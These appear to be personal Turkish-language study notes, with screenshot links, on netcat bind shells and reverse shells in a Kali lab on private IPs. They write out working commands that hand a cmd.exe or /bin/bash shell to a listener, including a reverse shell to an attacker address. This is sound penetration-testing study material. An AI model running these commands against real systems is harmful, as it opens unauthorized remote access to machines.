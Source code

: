 ## nc.exe -nvlp 1234 -e cmd.exe
![[Pasted image 20240325135058.png]]
![[Pasted image 20240325135142.png]]
### Kaliye Geçtik
## nc -nv 10.0.2.5 1234
![[Pasted image 20240325135245.png]]

## Bu neden anlatılıyor ? Ben zaten sisteme bunları yaptıracak kadar erişim sağladıysam ne gereke var. Bu düzeyde erişimin yok ancak başka programı bunu yapmaya tetiklettirebilirsin.

![[Pasted image 20240325135417.png]]


### Aynısının tam tersi
![[Pasted image 20240325135747.png]]

![[Pasted image 20240325135827.png]]


![[Pasted image 20240325135729.png]]


### Burada nc -nvlp -c /bin/bash
#### -c option da kullanılabilir. --->> sADECE LINUX DA KULLANILIYOR
![[Pasted image 20240325140036.png]]

## MANTIK ŞU BEN BIR DINLEYICI AÇIYORUM. BURAYA BANA GELENE SHELL VERECEM.
![[Pasted image 20240325140126.png]]
![[Pasted image 20240325140117.png]]

---
## REVERSE SHELL
![[Pasted image 20240325221316.png]]

### Az önce yapılan işlemin tam tersi yapılacak.

## netcat çalıştırılacak iki taraftada. Bu sefer dinleyen biziz attacker karşı taraf bize 
### nc -nv 10.0.2.4 1234 -e cmd.exe
##### Bu komutla netcat çalışsın, 10.0.2.4 IP 'si 1234 portuna gidilsin ve burada eğer bizi dinleyen bekleyen birisi varsa ona shell verilsin
